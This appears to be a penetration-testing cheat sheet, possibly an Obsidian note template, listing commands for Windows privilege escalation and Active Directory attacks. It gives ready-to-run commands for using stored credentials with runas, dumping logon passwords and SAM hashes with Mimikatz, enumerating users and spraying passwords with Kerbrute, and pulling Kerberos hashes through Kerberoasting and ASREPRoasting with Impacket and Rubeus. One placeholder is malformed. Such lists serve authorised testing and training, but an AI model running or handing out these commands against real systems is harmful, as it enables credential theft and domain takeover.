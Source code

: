 ```

### RunAS
- Check what privs we have stored on machine with
```
cmdkey /list
```
- We can run commands as this user with
```
runas /user:backupadmin cmd
```

## Mimikatz
### Logonpasswords
```
sekurlsa::logonpasswords
```
### SamHashes
```
lsadump::sam
```

# Priv Esc Linux

# Active Directory Enumeration

## Kerberos
#### Kerbrute
- Username Enum
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```
- Password Spray
```
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```
#### Impacket
- Get user SPNs
```
GetUserSPNs.py -dc-ip <%tp.frontmatter.IP%> sittingduck.info/notanadmin
```
- Check if any objects are vulnerable to ASReproasting with
```
Get-DomainUser -PreauthNotRequired 
```
- ASREPRoasting from attacker machine
```
impacket-GetNPUsers -dc-ip <%tp.frontmatteP%>  -request -outputfile hashes.asreproast <Domain>/<%tp.frontmatter.Username%>
```
- From victim machine
```
.\Rubeus.exe asreproast /nowrap
```






